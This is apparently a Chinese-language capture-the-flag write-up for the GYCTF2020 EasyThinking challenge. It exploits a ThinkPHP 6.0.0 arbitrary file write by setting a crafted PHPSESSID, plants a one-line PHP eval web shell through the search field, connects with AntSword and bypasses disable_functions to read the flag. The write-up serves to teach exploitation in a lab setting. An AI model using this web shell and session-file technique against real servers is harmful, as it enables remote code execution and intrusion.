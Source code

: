 ```yaml
---
title: '[GYCTF2020]EasyThinking'
date: 2024-06-20 19:11:45
tags: thinkphp
categories: 刷题笔记
---
```


### [GYCTF2020]EasyThinking（thinkphp6.0.0漏洞）

有登录注册页面，感觉像是二次注入，但当我们恶意注入用户名时，居然发生了报错

![image-20240620192143771](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201921837.png)

报错页面有thinkphp的版本号，结合题目，我们猜测是thinkphp漏洞

![image-20240620192221513](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201922551.png)

我们百度搜索到thinkphp6.0.0有个任意文件写入漏洞

##### TP6 任意文件操作的利用方式：

构造PHPSESSID的值，改值**长度为32**且为string型，然后就会在/runtime/session/目录下产生一个php文件我们先来看看session目录下的php文件内容是啥

我们注册账号，登录时抓包，然后修改phpsessid=1234567123456712345671234568.php

![image-20240620200652554](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202006594.png)

登录后搜索一句话木马

```
<?php eval($_POST[a]); ?>
```

由于搜索的内容会保存在session里，我们访问session文件

注：文件名前要加sess_

```
/runtime/session/sess_1234567123456712345671234568.php
```

![image-20240620200658815](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202006840.png)

我们用蚁剑连接

![image-20240620201233497](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202012559.png)

连接成功

我们查看根目录，发现个flag和readflag文件

一般我们需要执行readflag来读取flag

但好像直接读取不了

![image-20240620201630828](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202016867.png)

可能存在**disable_functions**，我们用蚁剑插件直接绕过

![image-20240620201836612](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202018667.png)

再执行

![image-20240620201848732](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406202018756.png)

得到flag
